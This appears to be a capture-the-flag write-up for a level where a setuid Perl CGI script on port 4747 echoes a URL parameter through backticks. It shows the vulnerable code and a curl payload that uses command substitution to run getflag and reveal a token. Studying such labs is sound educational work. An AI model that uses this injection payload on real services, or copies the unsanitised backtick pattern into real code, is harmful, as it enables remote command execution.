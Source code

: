 ### Vulnerability Assessment

In the home directory of `level04`, there's a Perl script:

```bash
$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Perl scripts are used for various purposes, from text processing to web development. The script in question, `level04.pl`, appears to be a web script due to its usage of the CGI module and a comment indicating a localhost port:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

### Exploitation

This script serves content over port 4747. Its functionality includes:

- **`use CGI qw{param}`:** Imports the CGI module's `param` function, which retrieves parameters passed through the URL or an HTML form.
- **`print "Content-type: text/html\\n\\n";`:** Specifies the MIME type as HTML, ensuring correct browser interpretation.
- **`sub x { ... }`:** Defines a subroutine `x` that takes a parameter and echoes it back.

Executing the script with a parameter:

```bash
> ./level04 x=hello
>
Content-type: text/html

hello
```

By accessing the service on port 4747 with `curl`, it's possible to pass parameters:

```bash
$ curl localhost:4747/?x=hello
hello
```

To exploit this, command substitution is used within the parameter to execute `getflag`:

```bash
$ curl localhost:4747/?x="\`/bin/getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

